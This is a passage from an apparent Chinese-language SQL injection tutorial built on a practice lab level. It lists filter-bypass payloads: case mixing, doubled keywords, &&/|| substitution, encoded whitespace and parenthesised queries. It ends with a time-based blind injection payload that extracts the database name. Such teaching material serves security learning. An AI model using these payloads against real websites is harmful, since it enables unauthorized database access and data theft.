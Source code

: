 

**绕过思路**

- 使用大小写绕过
- 复写过滤字符
- 用&&取代and，用||取代or

这里的环境使用level-25。

![image-20240507163318101](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507163318101.png?imageSlim)

```sql
?id = 1

?id=1 and 1=1

?id=1 anD 1=1

?id=1 anandd 1=1

?id=1 && 1=1

?id=1 %26%26 1=1
```



### 6.3 空格过滤

**绕过思路**

- 使用+号代替空格
- 使用URL编码代替空格

```bash
spaces=======%20
TAB 09 horizontal TAB=======%09
LF OA newline=====%0A
FF 0C new page=====%0C
CR 0D carriage return======%0D
VT 0B vertical TAB========%0B
-OA-(MySQL only)==========%A0
```

或者使用括号对空格进行绕过：

如果空格被过滤，括号没有被过滤，可以用括号绕过。

在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```
